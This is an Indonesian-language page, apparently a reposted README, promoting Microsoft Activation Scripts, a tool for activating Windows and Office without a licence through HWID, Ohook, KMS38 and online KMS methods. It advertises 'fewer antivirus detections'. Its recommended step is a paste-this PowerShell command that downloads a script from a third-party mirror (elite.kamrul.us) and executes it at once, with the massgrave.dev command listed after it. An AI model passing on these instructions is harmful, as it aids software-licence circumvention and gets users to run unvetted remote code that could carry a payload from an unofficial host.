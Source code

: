 Skrip Aktivasi Microsoft (MAS) Aktivator Windows dan Office yang menggunakan metode aktivasi HWID / Ohook / KMS38 / Online KMS, dengan fokus pada kode sumber terbuka dan deteksi antivirus yang lebih sedikit.

Fitur Metode HWID (Lisensi Digital): Mengaktifkan Windows Secara Permanen Metode Ohook: Mengaktifkan Office Secara Permanen Metode KMS38: Mengaktifkan Windows/Server Hingga Tahun 2038 Metode KMS Online: Mengaktifkan Windows/Server/Office Selama 180 Hari (Seumur Hidup dengan Tugas Pembaruan) Pemecahan Masalah Aktivasi Lanjutan Folder O E M Untuk Pra-aktivasi Ubah Edisi Windows Periksa Status Aktivasi Windows/Office Tersedia dalam Versi Semua dalam Satu dan File Terpisah Sepenuhnya Sumber Terbuka dan Berdasarkan Skrip Batch Deteksi Antivirus yang Lebih Sedikit Rilis Terbaru MAS Rilis Terakhir - v2.5 (16-Nov-2023)

Unduh GitHub Bitbucket / Bagaimana cara menggunakannya? Metode 1 - PowerShell (Disarankan) Klik kanan pada menu mulai Windows dan pilih PowerShell atau Terminal (Bukan CMD).

Salin dan tempel kode di bawah ini dan tekan enter:

irm https://elite.kamrul.us/get | iex irm https://massgrave.dev/get | iex Ikuti petunjuk di layar untuk aktivasi.

Metode 2 - Tradisional Unduh file dari GitHub atau Bitbucket. Klik kanan pada file zip yang diunduh dan ekstrak. Di folder yang diekstrak, temukan folder bernama All-In-One-Version. Jalankan file bernama MAS_AIO.cmd. Ikuti petunjuk di layar untuk aktivasi. Mode Tanpa Pengawasan Untuk menjalankan skrip dalam mode tanpa pengawasan, periksa di sini.

Ringkasan Aktivasi Jenis Aktivasi Produk yang Didukung Periode Aktivasi HWID Windows 10-11 Permanen Ohook Office Permanen KMS38 Windows 10-11-Server Hingga Tahun 2038 Online KMS Windows / Office 180 Hari. Seumur Hidup Dengan Pembaruan Modifikasi Tugas oleh nhaolbyte Situs utama dibuat oleh Massgrave Semua penghargaan diberikan kepada Massgrave untuk pembuatan situs utama.

Untuk detail lebih lanjut, lihat detail aktivasi masing-masing dalam dokumentasi.

Tangkapan layar (Tangkapan layar akan dimasukkan di sini)
Follow my instagram nhaol_putra
